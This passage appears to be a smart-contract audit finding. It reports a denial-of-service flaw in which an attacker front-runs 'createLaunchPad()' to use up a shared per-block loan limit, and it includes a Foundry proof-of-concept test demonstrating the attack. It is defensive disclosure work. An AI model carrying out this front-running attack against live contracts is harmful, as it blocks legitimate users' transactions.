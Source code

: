 The root cause is that `createLaunchPad()` does not have any access controls and the `MAX_LOAN_PER_BLOCK` limit is enforced on a per-block basis across all launchpads. Note, that even with a proper access control (only calable by the `LamboVEthRouter`), the attack will still work with the same cost for the attacker.

### Impact

Legitimate users will be DOS from creating new launchpads if an attacker front-runs them in the same block and exhausts the `MAX_LOAN_PER_BLOCK` limit. Note that all the tx in the block will be DOS for only one tx by the attacker. This denial of service attack can be performed at no cost to the attacker (only the tx cost).

### Proof of Concept

Here is a test that demonstrates the attack:

Add this test to `GeneralTest.t.sol` and run :

```bash
forge test --match-test test_dos_create_launchpad -vvv
```

```solidity
function test_dos_create_launchpad() public {
    // Setup initial values for launchpad
    uint256 MAX_LOAN_PER_BLOCK = 300 ether;
    
    // Set the hacker balance to 0, to prove the attack is free of cost, only the txt cost
    vm.deal(hacker, 0 ether);

    // the loan amount is 0
    console2.log("loan amount this block", vETH.loanedAmountThisBlock());

    // Hacker front-runs the transaction, it only incurs the tx cost
    vm.startPrank(hacker);
    factory.createLaunchPad(
        "malicious",
        "malicious",
        MAX_LOAN_PER_BLOCK,
        address(vETH)
    );
    vm.stopPrank();


    console2.log("loan amount this block after front run", vETH.loanedAmountThisBlock());
    // Assert the max loan for this block is reached
    assertTrue(vETH.loanedAmountThisBlock() == MAX_LOAN_PER_BLOCK);
    
    // Legitimate user tries to create a launchpad
    address legitimateUser = makeAddr("legitimate");
    vm.deal(legitimateUser, 100 ether);

    // Legitimate user's transaction should fail due to MAX_LOAN_PER_BLOCK
    vm.startPrank(legitimateUser);
    vm.expectRevert("Loan limit per block exceeded"); // Expect the transaction to revert because max loan for this block is reached
    lamboRouter.createLaunchPadAndInitialBuy{value: 1 ether}(
        address(factory),
        "legit",
        "legit",
        1 ether,
        1 ether 
    );
    vm.stopPrank();
}
```
